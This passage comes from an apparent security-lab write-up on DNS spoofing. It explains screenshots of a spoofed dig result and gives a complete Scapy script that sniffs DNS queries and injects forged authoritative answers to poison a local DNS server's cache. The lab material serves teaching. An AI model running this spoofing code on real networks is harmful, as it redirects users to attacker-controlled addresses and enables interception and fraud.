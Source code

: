 ***running dig `www.example.com` from victim machine***

![spoof-victim](https://github.com/iukadike/iukadike.github.io/assets/58455326/ddc1fb8e-a478-4796-8756-8dd6111d2b88)

We can see from the screen shot that the address `dig` got back for `www.example.com` was `1.2.3.4, which is the address we used in our Python program. However, this entry is strictly local to the host. It does not affect the records on the DNS server, as seen in the screenshot below.

***the dns cache of the local DNS server***

![spoof-cache](https://github.com/iukadike/iukadike.github.io/assets/58455326/8f8ac5a8-d68d-4eaa-b67f-b5f8f3582435)

Here, after dumping the cache to a file and inspecting it, we can see that the address cached for `www.example.com` was not `1.2.3.4.

<br>

###  DNS Cache Poisoning Attack – Spoofing Answers
The above targeted the user's machine. The records on the local DNS server were not affected. Should we stop the attack and the user try visiting `example.com`, the user will get the legitimate IP from the local DNS server. However, if we feed the local DNS server spoofed records, any time the user queries the local DNS server for the IP address of `example.com`, the user will always get the fake response.

```python
#!/usr/bin/env python3
from scapy.all import *

NS_NAME = "example.com"

def spoof_dns(pkt):
    if NS_NAME in pkt[DNS].qd.qname.decode():
        print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
        
        # Create an IP object
        ip = IP(src = pkt[IP].dst, dst = pkt[IP].src)
        
        # Create a UDP object
        udp = UDP(sport = pkt[UDP].dport, dport = pkt[UDP].sport) 
        
        # Create an answer record
        ansec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A',
            ttl = 1024, rdata = '1.2.3.4')
            
        # Create a DNS object 
        dns = DNS(id = pkt[DNS].id,
            aa = 1, rd = 0, qr = 1, qdcount = 1, ancount = 1,
            qd = pkt[DNS].qd, an = ansec) 
        
        # Send the spoofed DNS packet
        send(ip / udp / dns, verbose=0) 

myFilter = "udp port 53 && src host 10.9.0.53 && (not ether host 02:42:82:ce:39:30)"
print('running...')
sniff(iface='br-eb50d439f380', filter=myFilter, prn=spoof_dns)
```

